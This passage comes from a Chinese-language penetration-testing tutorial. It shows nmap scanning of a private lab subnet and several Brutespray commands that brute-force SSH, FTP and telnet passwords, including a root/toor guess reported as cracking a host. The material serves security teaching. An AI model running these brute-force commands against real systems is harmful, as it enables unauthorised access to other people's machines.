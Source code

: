 ```bash
nmap –sP 192.168.17.0/24-oX nmaplive.xml
```

(4)扫描应用程序以及版本号

```bash
nmap  -sV –O 192.168.17.0/24 -oX nmap.xml
```

### 4.暴力破解SSH密码

**（1）交互模式破解**

```bash
python brutespray.py --file nmap.xml –i
```

执行后，程序会自动识别nmap扫描结果中的服务，根据提示选择需要破解的服务，线程数、同时暴力破解的主机数，指定用户和密码文件，如图 10所示。Brutespray破解成功后在屏幕上会显示“SUCCESS ”信息。

![10.png](https://image.3001.net/images/20180108/15153724041049.png!small)  

图10交互模式破解密码

**（2）通过指定字典文件爆破SSH**

```
python brutespray.py --file 22.xml -U /usr/share/brutespray/wordlist/ssh/user -P /usr/share/brutespray/wordlist/ssh/password --threads 5 --hosts 5
```

 注意:

brutespray 新版本的 wordlist 地址为 `/usr/share/brutespray/wordlist`，其下包含了多个协议的用户名和密码，可以到该目录完善这些用户文件和密码文件。`22.xml` 为 `nmap` 扫描22端口生成的文件。

**（3）暴力破解指定的服务**

```bash
python brutespray.py --file nmap.xml --service ftp,ssh,telnet --threads 5 --hosts 5
```

**（4）指定用户名和密码进行暴力破解**

当在内网已经获取了一个密码后，可以用来验证nmap扫描中的开放22端口的服务器，如图11所示，对192.168.17.144和192.168.17.147进行root密码暴力破解，192.168.17.144密码成功破解。

```bash
python brutespray.py --file 22.xml -u root -p toor --threads 5 --hosts 5 
./brutespray.py -f 22.xml -u root -p toor--threads 5 --hosts 5
```

![11.png](https://image.3001.net/images/20180108/15153724247392.png!small)  

图11 对已知口令进行密码破解

**（5）破解成功后继续暴力破解**

```bash
python brutespray.py --file nmap.xml--threads 5 --hosts 5 –c
```
